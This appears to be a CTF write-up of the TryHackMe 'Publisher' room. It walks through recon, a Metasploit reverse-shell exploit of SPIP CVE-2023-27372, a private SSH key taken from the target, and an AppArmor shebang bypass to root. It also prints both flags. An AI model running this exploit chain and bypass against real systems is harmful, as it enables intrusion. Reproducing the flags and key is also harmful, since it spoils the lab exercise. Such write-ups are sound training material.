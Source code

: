 ```yaml
---
title: "TryHackMe - Publisher"
date: 2025-03-20 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [linpeas, metasploit, privilege escalation, apparmor, ]

---
```

## Introduction

In this post, I will walk you through how I successfully exploited a vulnerability in SPIP [(CVE-2023-27372)](https://nvd.nist.gov/vuln/detail/CVE-2023-27372) to escalate privileges and gain root access on a vulnerable machine. This is a detailed write-up of the process, which includes scanning the target, discovering vulnerabilities, and leveraging them to gain control over the system.


## Reconnaissance

In begin, I scanned the target IP (10.10.x.x) with Nmap to gather information about the services running on the machine:

```console
nmap -sC -sV -Pn 10.10.x.x
```
Next, I performed directory enumeration using Gobuster to discover potential hidden directories or files:

```console
gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirb/common.txt
```
and 

```console
gobuster dir -u http://10.10.x.x/spip -w /usr/share/wordlists/dirb/common.txt
```
I then identified the web application using WhatWeb:

```console
whatweb http://10.10.x.x./spip
```
This revealed that the target was running SPIP, a content management system and allowed me to find out that SPIP is running version 4.2, and I am using Metasploit to search for available exploits.

```console
searchsploit spip 4.2
```
I found the following exploit:

```yaml
exploit/multi/http/spip_rce_form       2023-02-27       excellent  Yes    SPIP form PHP Injection
```
## Using Metasploit to Exploit the Vulnerability
I decided to use Metasploit to exploit the vulnerability. Here are the steps to configure and launch the attack:

```console 

msfconsole

msf6 > use exploit/multi/http/spip_rce_form

set RHOST 	IP_MACHINE
SET TARGETURI  /spip
SET LHOST	MY_IP
SET LPORT	4444

exploit

```
Once the exploit was successful, I gained a shell on the machine.

With the shell open, I was able to read the first flag:

**FLAG 1:  fa229046d44eda6a3598c73ad96f4ca5**

## Obtaining SSH Private Key

While exploring the user files, I found a private SSH key used for login. I copied it to my local machine and configured SSH access:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```


```console
chmod 600 id_rsa
ssh -i id_rsa think@10.10.x.x
```

## Privilege Escalation

Now, I wanted to escalate my privileges to root. The hints suggested looking into AppArmor profiles. I searched for files with the SUID bit set (files that execute with the owner's permissions), which could lead to privilege escalation:

```console 

find / -perm -u=s -type f 2>/dev/null

```
One such file - **run_container.sh**, caught my attention. Checking its permissions:

```console
ls -l /opt/run_container.sh
```

Although I had write access, I was denied permission to modify it, likely due to AppArmor restrictions. I used **linpeas.sh** to gather more information about the system.


![Linpeas AppArmor](/images/apparmor.jpg)


I see that AppArmor is enabled, and I check the shell by running

```console
echo $SHELL
```
It turns out that the shell is not Bash but Ash, and there is an AppArmor profile for the current shell.
I search for more information about the Ash shell and find some details about this profile at:

<Br>**/etc/apparmor.d/usr.sbin.ash**

```console

think@publisher:/etc/apparmor.d$ cat usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}

```

Writing to many critical directories, such as /opt/, /tmp/, /dev/shm/, /var/tmp/, and user directories in /home/, is restricted. This means that many common attack techniques that rely on writing files to these locations (e.g., injecting malicious code) are blocked.

The last step is to check the binary /usr/sbin/run_container.

```console
string /usr/sbin/run_container
```

The file contains a reference to /opt/run_container.sh, which suggests that this script is one of the main components executed by the program.
Having access to run the script or modify its contents would allow me to inject my own command.

While searching online, I found a method to bypass AppArmor and create an unrestricted shell:
[ AppArmor Shebang Bypass - HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/apparmor.html#apparmor-shebang-bypass)

I just need to modify it so that it writes to **/dev/shm** instead of **/tmp**, since the rules shown earlier prohibit writing to **/tmp**.

The final script looks like this:

```console

echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /dev/shm/test.pl
chmod +x dev/shm/test.pl
dev/shm/test.pl
```

Thanks to this, I can now modify **run_container.sh**

```console
nano /opt/run_container.sh
```

And I add the following

![run_container.sh](/images/runcontainer.png)

Now, I just need to run the script.
```console
/usr/sbin/run_container
```

And I escalate to root.

```console
cd /tmp
./bash -p
whoami
root
```

Now I can read the root flag.

```console
cd /root 
cat root.txt

```


**Flag 2 :  3a4225cc9e85709adda6ef55d6a4f2ca**